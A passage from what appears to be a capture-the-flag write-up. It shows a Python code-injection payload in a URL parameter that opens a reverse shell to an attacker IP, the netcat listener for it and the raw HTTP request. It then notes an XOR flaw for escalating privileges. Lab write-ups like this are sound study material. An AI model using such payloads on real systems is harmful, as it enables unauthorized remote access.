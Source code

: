 To try it out I added those two lines and started the server locally.

```python
serv = Server('127.0.0.1', 7777)
serv.listen()
```

Then I started a reverse shell listener with `nc -nlp 9999` and URL encoded the
key characters of the reverse shell payload so it can fit in the URL.

```
http://127.0.0.1:7777/toto.html?tata=a%27;%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.15.237%22,9999));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%20a=%20%27
```

As I worked I tried immediately on the box.

```
GET /?tata=a%27;%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.15.237%22,9999));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%20a=%20%27 HTTP/1.1
Host: 10.10.10.168:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

### System Privilege Escalation : www-data to robert

**TL;DR**: `SuperSecureCrypt.py` XORing

I started enumerating the home directories and saw this:

```
$ cd /home/robert/
$ ls -lh
total 24K
drwxr-xr-x 2 root   root   4.0K Dec  2 09:47 BetterSSH
-rw-rw-r-- 1 robert robert   94 Sep 26 23:08 check.txt
-rw-rw-r-- 1 robert robert  185 Oct  4 15:01 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4 15:01 passwordreminder.txt
-rwxrwxr-x 1 robert robert 2.5K Oct  4 14:55 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Sep 25 14:12 user.txt
```

We can see there is script named `SuperSecureCrypt.py` ([source code](https://gist.github.com/S4CH/4cb408456318997fb62dc0ec1311c6a3#file-supersecurecrypt-py)).

`out.txt` seems to be encrypted with the script, `check.txt` seems to be the
corresponding clear text and `passwordreminder.txt` is also encrypted.

The encrypt and decrypt functions seems to be XOR-like functions so it is
permutable: `out.txt x check.txt = key`.
